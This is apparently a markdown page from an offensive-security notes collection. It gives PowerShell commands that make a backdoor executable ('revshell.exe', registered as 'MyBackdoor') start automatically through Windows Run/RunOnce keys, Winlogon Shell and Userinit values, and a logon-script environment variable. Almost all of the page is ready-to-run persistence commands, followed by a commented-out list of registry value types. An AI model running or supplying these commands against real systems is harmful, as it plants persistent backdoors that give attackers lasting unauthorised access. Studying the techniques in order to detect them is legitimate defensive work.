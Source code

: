 # Modify registry keys with PowerShell

```powershell
# Modify logon script for entire machine
New-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MyBackdoor" -Value "C:\Windows\revshell.exe" -PropertyType "ExpandString"
New-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce" -Name "MyBackdoor" -Value "C:\Windows\revshell.exe" -PropertyType "ExpandString"
```

```powershell
# Modify logon script for current user
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MyBackdoor" -Value "C:\Windows\revshell.exe" -PropertyType "ExpandString"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce" -Name "MyBackdoor" -Value "C:\Windows\revshell.exe" -PropertyType "ExpandString"
```

```powershell
# Modify Shell of Winlogon
$currentValue = (Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon").Shell
$newValue = "$currentValue, c:\windows\revshell.exe"
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value $newValue
```

```powershell
# Modify Userinit of Winlogon
$currentValue = (Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon").Userinit
$newValue = "$currentValue c:\windows\revshell.exe"
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Userinit" -Value $newValue
```

```powershell
# Another way to modify Userinit/Shell of Winlogon
$keyPath = "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"
Get-ItemProperty -Path $keyPath | ForEach-Object {
    Set-ItemProperty -Path $keyPath -Name "Userinit" -Value "$($_.Userinit) c:\windows\revshell.exe"
    Set-ItemProperty -Path $keyPath -Name "Shell" -Value "$($_.Shell), c:\windows\revshell.exe"

}
```

```powershell
# Modify environmental variable
New-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript" -Value "C:\Windows\revshell.exe" -PropertyType "ExpandString"
```

<!-- # Examples of Value Types
# String (REG_SZ)
New-ItemProperty -Path "HKLM:\Path\To\RegistryKey" -Name "MyValue" -Value "StringValue" -PropertyType "String"

# ExpandString (REG_EXPAND_SZ)
New-ItemProperty -Path "HKLM:\Path\To\RegistryKey" -Name "MyValue" -Value "%SystemRoot%\System32" -PropertyType "ExpandString"

# Binary (REG_BINARY)
New-ItemProperty -Path "HKLM:\Path\To\RegistryKey" -Name "MyValue" -Value ([byte[]](65,66,67,68)) -PropertyType "Binary"

# DWord (REG_DWORD)
New-ItemProperty -Path "HKLM:\Path\To\RegistryKey" -Name "MyValue" -Value 1234 -PropertyType "DWord"

# MultiString (REG_MULTI_SZ)
New-ItemProperty -Path "HKLM:\Path\To\RegistryKey" -Name "MyValue" -Value @("String1","String2") -PropertyType "MultiString"

# QWord (REG_QWORD)
New-ItemProperty -Path "HKLM:\Path\To\RegistryKey" -Name "MyValue" -Value 123456789012345 -PropertyType "QWord"

# Unknown (REG_NONE)
New-ItemProperty -Path "HKLM:\Path\To\RegistryKey" -Name "MyValue" -Value 0 -PropertyType "Unknown" -->